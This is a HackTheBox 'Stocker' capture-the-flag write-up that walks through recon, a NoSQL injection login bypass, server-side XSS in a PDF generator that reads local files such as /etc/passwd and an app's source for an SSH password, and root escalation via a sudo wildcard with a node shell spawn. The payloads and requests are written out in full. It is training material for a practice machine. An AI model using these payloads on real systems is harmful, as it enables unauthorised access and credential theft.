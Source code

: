 ```yaml
---
description: HackTheBox Stocker Writeup
cover: ../.gitbook/assets/image (2) (1).png
coverY: 0
---
```


# \[Easy] Stocker

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>Machine stats</p></figcaption></figure>

### Recon <a href="#recon" id="recon"></a>

#### Services <a href="#services" id="services"></a>

`nmap`: **22 - SSH** and **80 - nginx**.

```
PORT      STATE  SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|  3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|  256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp    open  http        nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
| http-methods:
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

#### Subdomains <a href="#subdomains" id="subdomains"></a>

`gobuster`: dev.stocker.htb

```bash
➜  ~ gobuster vhost --url http://stocker.htb/ --wordlist ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 100
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb/
[+] Method:          GET
[+] Threads:         100
[+] Wordlist:        /home/ennl/Wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/07 19:01:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
```

#### Website <a href="#website" id="website"></a>

So, we have plain `stocker.htb` page without anything, and subdomain page `dev.stocker.htb` with redirect to `dev.stocker.htb/login`.

### Exploitation <a href="#exploitation" id="exploitation"></a>

#### Authentication bypass via NoSQL <a href="#authentication-bypass-via-nosql" id="authentication-bypass-via-nosql"></a>

[https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

I found that the login is susceptible to NoSQL Authentication Bypass after experimenting with various methods. We can bypass auth using

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

so, POST-request in BurpSuite gonna be look like:

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AglWx1W4l6AXfs4gYZq-X2EzGPvkRAknn.aTADasosaVSVpIrCRQR6U5P%2BRe8JeRJwk6aNyTMXe1Q
Upgrade-Insecure-Requests: 1
token: ddac62a28254561001277727cb397baf

{"username": {"$ne": null}, "password": {"$ne": null} }
```

Once the request has been modified, you get an auth bypass:

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

In browser:

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Client-Side XXS <a href="#client-side-xxs" id="client-side-xxs"></a>

Now, via page `/stock` add product to basket and intercept HTTP-request with BurpSuite.&#x20;

We have an API `/api/order` to make an order, which sends the \`\`\`basket" as a parameter. And order details are available on /api/po/ID.

`/api/order` is a dynamic PDF generator, which has vulnerable to Server Side XSS parameter `title`.

{% embed url="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf" %}

```
{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"<iframe src=file:///etc/passwd height='1500'  width='700' ></iframe>","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":3}]}
```

Response:



Doing same with `file:///var/www/dev/index.js` we get user SSH password.

![1.png](http://localhost:1313/stocker/4.png)

### Privelege Escalation <a href="#privelege-escalation" id="privelege-escalation"></a>

`sudo -l`:

```bash
angoose@stocker:~$ sudo -l 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

We got a wildcard in the path, which means we can put another path in place of that wildcard, but we still should use node.js.

[https://gtfobins.github.io/gtfobins/node/](https://gtfobins.github.io/gtfobins/node/)

Create a `root.js` in user dir:

```bash
angoose@stocker:~$ nano root.js

node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Then, start it by:

```bash
angoose@stocker:~$ sudo node /usr/local/scripts/../../../home/angoose/root.js
```

And get the root:

```bash
bash-5.0# cat /root/root.txt

f7723bd4b96f3cd26788fcb4f4714b08

```

